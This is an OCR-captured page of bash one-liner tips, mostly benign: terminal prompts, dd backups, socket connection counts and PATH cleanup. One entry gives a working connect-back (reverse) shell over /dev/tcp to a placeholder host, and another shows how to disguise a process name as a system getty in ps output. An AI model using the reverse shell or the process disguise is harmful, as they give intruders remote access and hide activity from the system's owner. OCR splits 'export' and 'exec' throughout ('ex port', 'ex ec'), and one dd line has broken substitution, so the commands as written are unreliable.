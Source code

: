   ex port GREP_COLOR='1;32';while [ true ]; do head -n 100 /dev/urandom; sleep .1; done | hexdump -C | grep color=auto "ca fe"

##### Expand shortened URLs

   ex pandurl() { curl -s "http://api.longurl.org/v2/expand?url=${1}&format=php" | awk -F '"' '{print $4}' }

##### Show current pathname in title of terminal

   ex port PROMPT_COMMAND='echo -ne "\033]0;${PWD/#$HOME/~}\007";'

##### Mac OS X: Change Color of the ls Command

   ex port LSCOLORS=gxfxcxdxbxegedabagacad

##### Report the established connections for a particular port

   ex port PORT=11211; ss -an4 | grep -E "ESTAB.*$PORT" | awk '{print $5}' | awk -F: '{print $1}' | sort | uniq -c | sort -nr

##### Mutt - Change mail sender.

   ex port EMAIL=caiogore@domain.com && mutt -s "chave webmail" destination@domain.com < /dev/null

##### dd with progress bar and statistics to gzipped image

   ex port BLOCKSIZE='sudo blockdev getsize64 /dev/sdc' && sudo dd if=/dev/sdc bs=1MB | pv -s $BLOCKSIZE | gzip -9 > USB_SD_BACKUP.img.gz

##### Hide the name of a process listed in the `ps` output

   ex ec -a "/sbin/getty 38400 tty7" your_cmd -erase_all_files

##### Export a directory to all clients via NFSv4, read/write.

   ex portfs -o fsid=0,rw :/home/jason

##### Read and write to TCP or UDP sockets with common bash tools

   ex ec 5<>/dev/tcp/time.nist.gov/13; cat <&5 & cat >&5; exec 5>&-

##### Speed up builds and scripts, remove duplicate entries in $PATH.  Users scripts are oftern bad:  PATH=/apath:$PATH type of thing cause diplicate.

   ex port PATH=`echo -n $PATH | awk -v RS=":" '{ if (!x[$0]++) {printf s $0; s=":"} }'`

##### Connect-back shell using Bash built-ins

   ex ec 0</dev/tcp/hostname/port; exec 1>&0; exec 2>&0; exec /bin/sh 0</dev/tcp/hostname/port 1>&0 2>&0

##### hanukkah colored bash prompt

